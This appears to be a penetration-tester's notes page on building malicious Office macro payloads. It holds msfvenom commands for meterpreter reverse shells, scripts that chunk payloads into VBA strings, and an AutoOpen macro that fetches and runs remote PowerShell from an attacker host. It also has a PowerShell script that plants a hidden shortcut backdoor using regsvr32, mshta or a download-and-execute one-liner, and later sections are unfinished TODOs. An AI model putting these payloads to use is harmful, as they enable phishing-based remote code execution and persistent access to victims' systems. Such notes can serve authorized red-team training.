 # Payload Delivery Macro

## 01 - Crafting Manually

### 1.1 - Scripts

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f psh-cmd`

`$ cat vba-macro-payload-format.py`

---

```python
#!/usr/bin/env python

string = ""
n = 50

for i in range(0, len(string), n):
    print("Str = Str + \"" + string[i:i+n] + "\"")
```

`$ cat vba-macro-payload-format.pl`

---

```perl
#!/usr/bin/env perl

my $string = "";

my @characters = ($string =~ /(.)/g);

$concatenated_string = "";

for(my $i = 0; $i < scalar(@characters); $i++) {
    $concatenated_string .= "Str = Str + \"";
    for(my $j = 0; $j < 50; $j++) {
        $concatenated_string .= $characters[$i++];
    }
    $concatenated_string .= chr(34)."\n";
}
print $concatenated_string;
```

`$ cat vba-macro-payload-format.go`

---

```go
package main

import "fmt"

func main() {
    String := ""

    for i := 0; i < len(String); i++ {
        fmt.Print("Str = Str + \"")
        for j := 0; j < 50; j++ {
            if i == len(String) {
                break
            }
            fmt.Printf("%c", String[i])
            i++
        }
        fmt.Print("\"\n")
    }
}
```

### 2.1 - Use Cases

#### 2.1.1 - VBA Macro

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f vba-psh -o macro.vbs`

#### 2.1.2 - HTA Callback Shell

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 -f hta-psh -o hta-payload.hta`

#### 2.1.3 - Shortcut Link

`$ cat macro.vbs`

---

```vbscript
Sub AutoOpen()
    Shell("powershell -c ""(Invoke-WebRequest ""http://<IP>/pwsh_cmds.txt"").Content | powershell"" ")
End Sub
```

Note: The TargetPath has a limit of 260 characters long

`$ cat pwsh_cmds.txt`

---

```powershell
$shortcutPath = "C:\Users\" + $env:username + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)

## Scriptlet files .sct
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll'

# For HTA files
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = 'http://<IP>/shell.hta'

# For conhost.exe and powershell one-liner
# $Shortcut.TargetPath = 'cmd'
# $Shortcut.Arguments = "/k `"powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $env:username + "\Public"
$Shortcut.Save()
attrib +h $shortcutPath
```

`$ sudo python -m http.server 80`

## 02 - Automated

### 2.1 - Metasploit

### 2.2 - Cobalt Strike

TODO: Showcase cobalt strike macro generator

### 2.3 - LuckyStrike

### 2.3.1 - Setup

TODO: Show the steps to install LuckyStrike

#### 2.3.2 - Usage

TODO: Showcase LuckyStrike usage by generating a macro

### 2.4 - Setoolkit

## References

- [LuckyStrike](https://github.com/curi0usJack/luckystrike)

- [LuckyStrike Usage Details](https://www.sevenlayers.com/index.php/293-luckystrike)

- [Lab 3 LuckyStrike Macro Generator](https://pythonforcybersecurity.com/lessons/lab-3-luckystrike-macro-generator/)

- [Getting System Access Using Malicious Word File](https://niiconsulting.com/checkmate/2017/05/getting-system-access-using-malicious-word-file/)

- [Phishing Files and Documents](https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology/phishing-documents)

- [Multiple Ways to Exploit Windows Systems using Macros](https://www.hackingarticles.in/multiple-ways-to-exploit-windows-systems-using-macros/)

- [MS Excel Weaponization Techniques](https://bank-security.medium.com/ms-excel-weaponization-techniques-79ac51610bf5)

- [Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

- [Various Macros-Based RCEs](https://gist.github.com/mgeeky/9dee0ac86c65cdd9cb5a2f64cef51991)